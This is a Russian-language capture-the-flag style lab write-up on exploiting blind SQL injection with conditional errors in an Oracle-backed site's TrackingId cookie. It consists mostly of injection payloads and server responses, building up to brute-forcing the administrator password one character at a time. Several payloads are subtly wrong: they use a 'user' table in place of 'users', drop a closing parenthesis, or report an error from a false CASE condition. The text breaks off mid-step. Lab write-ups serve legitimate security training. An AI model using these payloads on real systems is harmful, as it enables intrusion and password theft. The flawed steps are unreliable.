



# Лабораторная работа: Слепая SQL-инъекция с условными ошибками

В этой лабораторной работе обнаружена уязвимость слепой SQL-инъекции. Приложение использует отслеживающий `cookie`-файл для аналитики и выполняет SQL-запрос, содержащий значение отправленного `cookie`-файла.

Результаты SQL-запроса не возвращаются, и приложение не реагирует по-разному в зависимости от того, возвращает ли запрос какие-либо строки. Если SQL-запрос вызывает ошибку, приложение возвращает пользовательское сообщение об ошибке.

В базе данных есть другая таблица с названием users, со столбцами `username` и `password`. Вам необходимо использовать уязвимость слепой SQL-инъекции, чтобы узнать пароль пользователя `administrator`.

Для решения лабораторной работы войдите в систему под учетной записью `administrator` пользователя.

Анализ:

1) Для работы нам необходимо доказать уязвимость параметра.
2) Далее сделаем запрос:

```sql
Cookie: TrackingId=nuY97mfc9YodwK25'|| (SELECT '') || '
```
нам возвращает ошибку 500...

Пытаемся изменить синтаксис, проверяем Orcale:

```sql
Cookie: TrackingId=nuY97mfc9YodwK25'|| (SELECT '' FROM DUAL) || '
```
Видим ответ `HTTP/2 200 OK`

Мы определили БД.

Для того, чтобы быть уверенным, что перед нами Blind-SQL-Injection попытаемся получить данные из несуществующей таблицы (посмотрим на поведение веб-сайта):

```sql
Cookie: TrackingId=zAzb3amQWMFUTIlS' || (SELECT '' FROM DUALFIEWJFOW) ||'
```

Видим ошибку:

```sql
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2330
```
Следующим шагом, нам необходимо убедиться, что список пользователей существует в БД:

```sql
Cookie: TrackingId=zAzb3amQWMFUTIlS' || (SELECT '' FROM users WHERE ROWNUM = 1) ||'
```

Для чего я добавил `WHERE ROWNUM = 1`? Все потому что, если оставить

```sql
Cookie: TrackingId=zAzb3amQWMFUTIlS' || (SELECT '' FROM users) ||'
```

Мы получим ошибку, так как нет уточнения, что я хочу получить одну строку юзера (по отдельности), то есть по умолчянию пытаемся взять все данные из таблицы, ччто приводит к ошибке: 
`single-row subquery returns more than one row`

Следующим логическим шагом будет: Просмотр существует ли пользователь-администратор в системе?

```sql
Cookie: TrackingId=zAzb3amQWMFUTIlS' || (SELECT '' FROM users WHERE username='administrator') ||'
```

Результат: 
`HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11458`

Но также, если мы сделаем запрос на несуществующего пользователя, то увидим `HTTP/2 200 OK` немного непонятно...

Для более точного определения, что ползователь существует, необходимо использовать оператор `CASE` поведение похоже на `if/then/else`

```sql
Cookie: TrackingId=k2xQHAMjyOoJ8Iz4' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
```



Определяем существует ли именно пользователь `administrator`:

```sql
Cookie: TrackingId=k2xQHAMjyOoJ8Iz4' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM user WHERE username='administrator') ||'
```
Результат - ошибка, следовательно пользователь-администратор существует!

Далее пытаемся определить длину пароля:

```sql
Cookie: TrackingId=k2xQHAMjyOoJ8Iz4' || (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM user WHERE username='administrator' AND LENGTH(password)>1 ||'
```


Длина пароля равна 20 символам.

Начинаем брутфорс, как в предыдущей лабораторной, запрос будет таким:

```sql
Cookie: TrackingId=k2xQHAMjyOoJ8Iz4' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a') ||'
```

Получается что-то похожее на это:


